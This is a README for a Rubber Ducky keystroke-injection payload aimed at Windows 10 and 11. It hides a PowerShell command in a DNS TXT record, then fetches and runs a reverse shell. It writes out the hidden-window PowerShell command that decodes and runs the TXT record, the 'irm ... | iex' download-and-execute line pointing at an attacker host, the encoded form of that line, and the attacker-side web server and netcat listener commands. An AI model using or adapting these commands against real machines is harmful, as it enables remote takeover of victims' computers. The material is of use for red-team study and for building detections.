 # DNS-TXT-CommandInjection
Ducky Script uses Resolve-DnsName to perform a DNS name query resolution for a domain hosting a malicious TXT record. The payload leverages DNS TXT records to perform command injection. Windows Powershell is the CLI used by the payload. Replace the DNS TXT record for your domain with the base64 encoded payload you have. 
## Description
Author: Nate\
Target: Windows 10, 11\
Props: Hak5, Darren Kitchen, Korben\
Version: 1.0\
Category: Execution
## Configuration
1. A domain with the ability to manipulate the DNS TXT records.
2. Add command to DNS TXT records. See Links for an example of creating your DNS TXT record in AWS Route53 service.
3. Web Server hosting a file. In this example, python3 http.server was used to host a reverseshell.
4. Update powershellReverseShellOne-liner.ps1.
5. Set up istener on the attacker machine to reflect what is in powershellReverseShellOne-liner.ps1. Netcat was used in this example.
6. Provide URL used for Example #MY_TARGET_URL in DNS-TXT-CommandInjection.txt
## Notes
Other commands can be added to DNS TXT record rather than the example below.
No base64 can be used as an option by replacing "$a=",";powershell -e $a" with just "|iex" for the STRINGLN payload. Examples of the decoded command and encoded command are shown below to put into the DNS TXT record.

Decoded: "irm http://MY_TARGET_URL/T1.txt | iex"\
Encoded: "aQByAG0AIABoAHQAdABwADoALwAvAGUAeABhAG0AcABsAGUALgBjAG8AbQAvAFQAMQAuAHQAeAB0ACAAfAAgAGkAZQB4AA=="

powershellReverseShellOne-liner.ps1 is identical to T1.txt. (shortened due to character limitations)\
ShoutOut: powershell reverse shell one-liner by Nikhil SamratAshok Mittal @samratashok. See link below.
## Windows Commands (used in payload)
### Execute DNS TXT Payload
```Powershell
powershell /w 1 $a=(resolve-dnsname #MY_TARGET_URL TXT).strings;powershell -e $a
```
### Execute web hosted Powershell Reverseshell
```Powershell
irm http://MY_TARGET_URL/T1.txt | iex
```
## Linux Commands
### Web Server to host a file
```Bash
python3 -m http.server 80
```
### Netcat listener
```Bash
nc -lvnp 1337
```
### Links

[Powershell Reverseshell One-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)

[Create TXT record in AWS Route53](https://www.entrust.com/knowledgebase/ssl/how-to-create-a-txt-record-on-amazon-aws-route-53-for-entrust-email-validation-method)
